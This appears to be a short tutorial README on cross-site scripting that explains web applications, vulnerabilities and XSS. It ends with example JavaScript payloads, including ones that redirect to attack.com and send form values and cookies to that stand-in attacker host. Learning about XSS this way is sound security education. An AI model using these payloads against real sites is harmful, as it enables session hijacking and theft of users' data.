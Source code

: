 <p align="center"><img align="center" width="500" height="500" src="./assets/Cross-site-scripting.gif"/></p>

# Cross-site Scripting

 Before we start talking about Cross-site-scripting (XSS), it's important to talk about what a web applications and vulnerability.
### Web application
    Basically, a web application is a piece of software that runs in a web browser, such as Chrome, Firefox etc. Why understand what a web application is? precisely because Cross-site-scripting (XSS) is caused by flaws in web applications themselves. Like Facebook, Olx etc. 
You can learn more about web application here: https://aws.amazon.com/what-is/web-application/
### Vulnerability
    Vulnerability is precisely a weakness in a web application that is exploited through bugs or the structure of the web application itself, if it has flaws, and it is in these flaws that people with malicious intentions can gain access to sensitive and important data.
You can learn more about vulnerabilities here: https://owasp.org/www-community/vulnerabilities/.
#### XSS
    XSS is an injection attack frequently based on JavaScript, but it can also include HTML or any type of code that our browser can execute. They inject into a web application with the focus of being executed by other users. In this way, it can send malicious code to other people who may mistakenly click on a script that captures sensitive or important information. 


### Payloads
Payloads are basically Javascript codes that we can execute on target users' computers.

Examples of payloads:

```javascript
Basic alert payload:
<script>alert('XSS')</script>


Redirection payload:
<script>
window.location='http://attack.com'
</script>


Form data capture payload:
<script>
document.location='http://attack.com/logger.php?data=' +document.getElementById('form_id').value 
</script>

AJAX command execution payload:
<script>
const xhttp = new XMLHttpRequest();
xhttp.open('GET', 'http://attack.com/log.php?data?=' + document.cookie, true);
xhttp.send();
</script>

```

*